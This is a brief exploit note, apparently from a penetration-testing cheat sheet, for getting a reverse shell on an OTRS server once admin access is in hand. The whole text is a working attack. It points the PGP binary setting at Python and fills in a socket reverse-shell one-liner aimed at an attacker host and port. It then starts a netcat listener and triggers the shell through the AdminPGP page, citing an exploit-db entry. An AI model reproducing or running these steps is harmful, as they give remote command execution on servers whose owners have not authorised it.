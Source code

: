### Create reverse shell authenticated admin access
```
Admin Tab > Sysconfig > search pgp
```

### Set the following values:
```
PGP = Yes
PGP::Bin /usr/bin/python
PGP::Options -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<lhost>",<lport>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Start listener
```
nc -lnvp <lport>
```

### Trigger shell
http://<rhost>/otrs/index.pl?Action=AdminPGP  

### References
https://www.exploit-db.com/exploits/43853  

